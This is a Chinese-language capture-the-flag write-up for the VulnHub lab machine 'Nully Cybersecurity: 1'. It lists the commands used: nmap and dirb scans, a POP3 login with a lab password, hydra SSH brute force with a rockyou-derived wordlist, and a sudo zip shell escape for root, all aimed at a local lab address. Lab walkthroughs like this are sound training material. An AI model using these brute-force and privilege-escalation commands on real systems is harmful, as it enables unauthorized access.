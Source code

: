 # 原创
：  VulnHub渗透测试实战靶场 - NULLY CYBERSECURITY: 1

# VulnHub渗透测试实战靶场 - NULLY CYBERSECURITY: 1

#### VulnHub渗透测试实战靶场 - NULLY CYBERSECURITY: 1

## 题目描述

```
Nully Cybersecurity - this is an easy-intermediate realistic machine.
While working with the machine, you will need to brute force, pivoting (using metasploit, via portfwd), exploitation web app, and using searchsploit.
About: Wait 5-8 minutes before starting for the machine to start its services. Also, check the welcome page on port 80.
Hints: 'cat rockyou.txt | grep bobby &gt; wordlist' for generating wordlist.
Story: You are a Professional White Hat. Small company Nully Cybersecurity hired you to conduct a security test of their internal corporate systems.
Feedback. https://twitter.com/laf3r_
Difficulty: Easy-intermediate
This works better with VirtualBox rather than VMware

```

## 环境下载

> 



## NULLY CYBERSECURITY: 1靶机搭建

> 

- 将下载好的靶机环境，导入 VritualBox，设置为 Host-Only 模式- 将 VMware 中桥接模式网卡设置为 VritualBox 的 Host-only


> 



## 渗透测试

### 信息搜集

> 
用 Nmap 扫描一下目标靶机的端口信息：`sudo nmap -sS -A -Pn 192.168.56.109`，发现开放了 `80、110、2222、8000、9000` 五个端口


> 
用 dirb 扫描一下 80 端口 web 目录：`dirb http://192.168.56.109`


### 漏洞挖掘

> 



> 



```
telnet 192.168.56.109 110
user pentester
pass qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
list
retr 1

```

> 



```
bob
bobby
Bob
BOB
Bobby
BOBBY

```

> 



```
cat rockyou.txt| grep bobby &gt; bobby.txt

```

### getshwll

> 



```
hydra -L user.txt -P bobby.txt -f -V ssh://192.168.56.109:2222

```

> 



### 提权

> 



> 



> 



> 



> 



```
sudo zip $(mktemp -u) /etc/hosts -T -TT 'sh #'

```
